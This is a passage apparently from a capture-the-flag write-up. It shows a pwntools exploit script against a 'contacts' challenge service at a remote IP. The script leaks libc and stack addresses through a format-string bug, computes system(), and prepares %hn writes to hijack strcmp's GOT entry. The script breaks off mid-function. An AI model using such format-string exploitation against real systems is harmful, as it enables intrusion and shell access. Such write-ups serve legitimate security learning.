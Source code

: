 Here is the exploit script ([pwntools is <3](http://pwntools.readthedocs.org)):

{% highlight python lineanchors %}
from pwn import *
# context.log_level = 'debug'

elf = ELF("contacts")
strcmp_got = elf.got["strcmp"]

def format_string(write_address):
    part1 = write_address & 0xffff
    part2 = (write_address & 0xffff0000) >> 16
    '''
    if part1 > part2:
        tmp = part1
        part1 = part2
        part2 = tmp
    '''
    format_str1 = "%{0}x%1$hn".format(part1)
    format_str2 = "%{0}x%1$hn".format(part2)
    return format_str1, format_str2

def create_contact(r, name, phone, desc):
    r.sendline(str(1))
    r.sendline(name)
    r.sendline(phone)
    r.sendline(str(len(desc)))
    r.sendline(desc)
    r.recvuntil("Menu:")

def edit_contact(r, person, num, change):
    r.sendline(str(3))
    r.sendline(person)
    r.sendline(str(num))
    r.sendline(change)
    r.recvuntil("Menu:")

def display_contacts(r):
    r.sendline(str(4))
    return r.recvuntil("Menu:")

def do_sploit(offset):
    r = remote("54.165.223.128", 2555)
    r.recvuntil(">>>")

    p1 = "AAAA"
    p2 = "BBBB"
    p3 = "CCCC"
    # Create person 1
    create_contact(r, p1, "/bin/sh", "%x.%x")

    leak = display_contacts(r)
    found = leak.index("Description: ") + len("Description: ")
    bin_sh, vfscanf_libc = map(lambda x: int(x, 16), leak[found:found+16].split("."))
    vfscanf_libc -= 17

    print "[+] /bin/sh is @ ", hex(bin_sh), ": [+] _io_vfscanf libc is @ ", hex(vfscanf_libc)

    system_libc = vfscanf_libc + offset
    format1, format2 = format_string(system_libc)

    print "[+] system libc is @ ", hex(system_libc)

    sec_person_desc = bin_sh + 0x30
    print "[+] Second person's description @ ", hex(sec_person_desc)

    trd_person_desc = bin_sh + 0x58